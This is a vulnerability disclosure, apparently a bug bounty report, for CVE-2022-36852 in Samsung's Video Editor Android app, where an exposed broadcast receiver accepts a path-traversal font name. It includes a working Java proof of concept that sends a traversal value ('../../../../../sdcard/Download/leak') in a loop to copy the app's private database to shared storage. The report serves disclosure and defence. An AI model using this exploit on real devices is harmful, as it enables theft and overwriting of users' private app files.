

# Details

<table>
    <tr>
        <td>Name</td>
        <td>Video Editor</td>
    </tr>
    <tr>
        <td>Package name</td>
        <td><code>com.sec.android.app.vepreload</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.04.12</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2022.09.07</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>Moderate</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td><a href="https://nvd.nist.gov/vuln/detail/CVE-2022-36852">CVE-2022-36852</a> (SVE-2022-0899)</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$1050</td>
    </tr>
</table>

# Description

Oversecured report:


The app contained an unprotected dynamically registered receiver in the `com/sec/android/app/vepreload/singleedit/controller/VECaptionControllerBase.java` file. In the case of the `com.sec.android.app.vepreload.fetchFont` action, it took from the attacker the value of `uri`, which was used as the URI from which the app received data, and the value of `font_name`, which was used as the file name, vulnerable to path-traversal. This vulnerability allowed arbitrary files to be stolen and overwritten.

**Proof of Concept**

The first part of the exploit forces the app to register the receiver, and the second part is to copy the file `/data/user/0/com.sec.android.app.vepreload/databases/ve_decoration.db` to `/sdcard/Download/leak`.

```java
// launch the activity to register the receiver automatically
Uri videoUri = Uri.parse("content://poc.provider.video/?name=video.mp4");
Intent i = new Intent();
i.setClassName("com.sec.android.app.vepreload", "com.sec.android.app.vepreload.singleedit.activity.SimpleVideoEditActivity");
i.putExtra(Intent.EXTRA_STREAM, new ArrayList<>(Arrays.asList(videoUri)));
startActivity(i);

// attack the receiver
Intent broadcastIntent = new Intent("com.sec.android.app.vepreload.fetchFont");
broadcastIntent.putExtra("uri", "file:///data/user/0/com.sec.android.app.vepreload/databases/ve_decoration.db");
broadcastIntent.putExtra("font_name", "../../../../../sdcard/Download/leak");
broadcastIntent.putExtra("status", 1);
new Thread(() -> {
    while (true) {
        sendBroadcast(broadcastIntent);
        try {
            Thread.sleep(100);
        } catch (Throwable th) {
            throw new RuntimeException(th);
        }
    }
}).start();
```

## References

- [Oversecured Blog. Android security checklist: theft of arbitrary files](https://blog.oversecured.com/Android-security-checklist-theft-of-arbitrary-files/)
